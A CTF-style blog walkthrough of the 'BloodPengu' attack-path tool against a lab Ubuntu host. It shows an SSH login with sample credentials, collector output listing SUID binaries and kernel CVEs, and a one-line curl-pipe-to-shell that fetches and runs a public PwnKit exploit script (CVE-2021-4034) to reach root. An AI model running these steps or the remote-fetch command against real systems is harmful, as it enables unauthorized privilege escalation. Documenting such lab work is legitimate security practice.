








Hunting Attack Paths on Bleeding Ubuntu System via BloodPengu
Overviews
Pretty much an early blog for beta BloodPengu and it's attack kit. Linux based infra commercial CTF are also quite fastly done (Under 1 Hour) by BloodPengu. Curretly BloodPengu is on version 2.5.4 and not yet perfect.
The reason I made this posts is due to showing practical BloodPengu in CTF or even Linux VAPT project. In this posts, are practical on based credential/logon access, enabling data collector based on gxc-BloodPengu.py and transfer the .JSON file to the graph (BloodPengu).
Tooling:
- BloodPengu
- gxc-BloodPengu.py
Practical
Start with having a breach scenario, we got credentials for the SSH logon, an example of pair of: lucifer:H3ll$$
┌──(byt3n33dl3㉿kali)-[~]
└─$ uv run netexec ssh 192.168.128.211 -u lucifer -p 'H3ll$$'
SSH 192.168.128.211 22 192.168.128.211 [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
SSH 192.168.128.211 22 192.168.128.211 [+] lucifer:H3ll$$ Linux - Shell access!Logon and see internal as usual, maybe do some checklists, etc.
lucifer@demon.corp:~$ id
uid=1000(lucifer) gid=1000(lucifer) groups=1000(lucifer),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
lucifer@demon.corp:~$ uname -a
Linux demon 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/LinuxBut having credential access leading local user to something in BloodPengu.
Elevating credential and logon based, we can mapped relation-ships with gxc-BloodPengu.py (now in v1.5.3) as data collectors.
We would also run module of -M kernel for informations regarding Kernel CVE/LPE potentials.
This is how to hunt all attack-paths:
┌──(byt3n33dl3㉿kali)-[~]
└─$ bloodpengu-python 192.168.128.211 -u lucifer -p 'H3ll$$' -d demon.corp -o out.json
_ __ ___ __ _____
___ _| |/_/_______/ _ )/ /__ ___ ___/ / _ \___ ___ ___ ___ __ ___ __ __
/ _ `/> / __/___/ _ / / _ \/ _ \/ _ / ___/ -_) _ \/ _ `/ // / / _ \/ // /
\_, /_/|_|\__/ /____/_/\___/\___/\_,_/_/ \__/_//_/\_, /\_,_(_) .__/\_, /
/___/ /___/ /_/ /___/
v1.5.3 [SuSHi Rav3n]
gxc-BloodPengu.py v1.5.3 | by <@byt3n33dl3>
Data collector in Python for BloodPengu APM
----------------------------------------------------------------------
[*] Target : 192.168.128.211:22
[*] User : lucifer
[*] Auth : password
[*] Domain : demon.corp
[*] Mode : full collection
[*] Output : out.json
[*] Connecting to 192.168.128.211:22...
[+] Connected in 0.17s - lucifer@192.168.128.211:22
[+] Remote : Linux demon.corp 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
----------------------------------------------------------------------
[*] Collecting users and groups...
[+] Users: 45 | Groups: 70
[*] Collecting sudo rules...
[-] sudo -l returned nothing - no sudo access or not in sudoers
[*] Collecting SUID/SGID binaries...
[CRITICAL] suid GTFOBins SUID binary: /bin/umount
[CRITICAL] suid GTFOBins SUID binary: /bin/mount
[CRITICAL] suid GTFOBins SUID binary: /snap/core/7917/bin/mount
. . .[SNIP]. . .
[POTENTIAL] kernel Polkit version: pkexec version 0.105 | verify against CVE-2021-4034
[POTENTIAL] kernel glibc: ldd (Ubuntu GLIBC 2.27-3ubuntu1) 2.27 | verify against CVE-2015-7547 / CVE-2023-4911 Looney Tunables
[+] Kernel: 5.4.0-120-generic | CVE matches: 6
----------------------------------------------------------------------
[+] Collection complete in 109.47s
[CRITICAL ] 54
[HIGH ] 17
[POTENTIAL] 23
[~] Total findings : 94
[~] Graph nodes : 530
[~] Graph edges : 242
[~] Output file : out.json
[+] Import out.json into BloodPengu via Import JSON
----------------------------------------------------------------------
gxc-BloodPengu.py v1.5.3 by <@byt3n33dl3> github.com/byt3n33dl3/gxc-BloodPengu.py Kernel exploit and LPE should've been inside it, however usually the attack-paths was so massive and potential fast LPE are not visible.
Let's see the results:

As I filters the attack-paths now I only wanting to see every fastest path to root, well BloodPengu have light-filters on it:

Here we got our local User have multiplex attack-paths to root access, almost half of it are CVE for LPE.


We can fetch and do checklists for all CVE listed by our collectors and spammmm!! LPE script onto the target at this point.
But now gxc-BloodPengu.py can filters data collector to be only gave an out-put of kernel and LPE modules, by using -M kernel command:
┌──(byt3n33dl3㉿kali)-[~]
└─$ bloodpengu-python 192.168.128.211 -u lucifer -p 'H3ll$$' -d demon.corp -M kernel -o kernel_out.json
_ __ ___ __ _____
___ _| |/_/_______/ _ )/ /__ ___ ___/ / _ \___ ___ ___ ___ __ ___ __ __
/ _ `/> / __/___/ _ / / _ \/ _ \/ _ / ___/ -_) _ \/ _ `/ // / / _ \/ // /
\_, /_/|_|\__/ /____/_/\___/\___/\_,_/_/ \__/_//_/\_, /\_,_(_) .__/\_, /
/___/ /___/ /_/ /___/
v1.5.3 [SuSHi Rav3n]
gxc-BloodPengu.py v1.5.3 | by <@byt3n33dl3>
Data collector in Python for BloodPengu APM
----------------------------------------------------------------------
[*] Target : 192.168.128.211:22
[*] User : lucifer
[*] Auth : password
[*] Domain : demon.corp
[*] Mode : kernel
[*] Output : kernel_out.json
[*] Connecting to 192.168.128.211:22...
[+] Connected in 0.19s - lucifer@192.168.128.211:22
[+] Remote : Linux demon.corp 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
----------------------------------------------------------------------
[*] Collecting users and groups...
[+] Users: 45 | Groups: 70
[*] Collecting privileged group memberships...
[POTENTIAL] groups Member of adm - log access, possible credential leakage
[+] Groups: adm, cdrom, dip, lucifer, lpadmin, plugdev, sambashare, www-data
[*] Running kernel CVE checklist...
[HIGH ] kernel CVE-2021-4034 | Polkit pkexec privilege escalation | kernel 5.4.0-120-generic
[HIGH ] kernel CVE-2021-3156 | Sudo heap-based buffer overflow | kernel 5.4.0-120-generic
[HIGH ] kernel CVE-2022-0847 | Dirty Pipe - overwrite data in arbitrary read-only files | kernel 5.4.0-120-generic
[CRITICAL] kernel CVE-2021-22555 | Linux netfilter heap out-of-bounds write LPE | kernel 5.4.0-120-generic
[HIGH ] kernel CVE-2022-1015 | Linux netfilter nf_tables out-of-bounds write | kernel 5.4.0-120-generic
[HIGH ] kernel CVE-2023-0179 | Linux netfilter nftables stack overflow LPE | kernel 5.4.0-120-generic
[POTENTIAL] kernel Sudo version: Sudo version 1.8.21p2 | verify against CVE-2021-3156 / CVE-2019-14287
[POTENTIAL] kernel Polkit version: pkexec version 0.105 | verify against CVE-2021-4034
[POTENTIAL] kernel glibc: ldd (Ubuntu GLIBC 2.27-3ubuntu1) 2.27 | verify against CVE-2015-7547 / CVE-2023-4911 Looney Tunables
[+] Kernel: 5.4.0-120-generic | CVE matches: 6
----------------------------------------------------------------------
[+] Collection complete in 1.66s
[CRITICAL ] 1
[HIGH ] 5
[POTENTIAL] 4
[~] Total findings : 10
[~] Graph nodes : 115
[~] Graph edges : 14
[~] Output file : kernel_out.json
[+] Import kernel_out.json into BloodPengu via Import JSON
----------------------------------------------------------------------
gxc-BloodPengu.py v1.5.3 by <@byt3n33dl3> github.com/byt3n33dl3/gxc-BloodPengu.py The .JSON file we analyze would've been smaller.
┌──(byt3n33dl3㉿kali)-[~]
└─$ ll
total 248
-rw-r--r-- 1 root root 28898 Mar 10 00:50 kernel_out.json
-rw-r--r-- 1 root root 210554 Mar 10 00:50 out.json

Now we will try one of the CVE listed by BloodPengu graph, I choose CVE-2021-4034 which is LPE path, affected by vulnerable PkExec.

Much of scripts can be found on GitHub repo, and we will use this LPE script to get to root!
lucifer@demon.corp:~$ id
uid=1000(lucifer) gid=1000(lucifer) groups=1000(lucifer),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
lucifer@demon.corp:~$ sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
root@demon.corp:/home/lucifer# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(lucifer)And. . .Profitt!!!!
Epilogue
At the time, BloodPengu is on version 2.5.4, which have an update regarding Data memory, enabling attackers to display earlier .JSON to be back into the graph without another directory interaction:

Awesome?
Shout Outs
Much Thanks to:
- AdverXarial
- SpecterOps
- pEASS
- NetExec from Pennyw0rth
I think that's most of it for us Adversaries.
Thanks for reading!!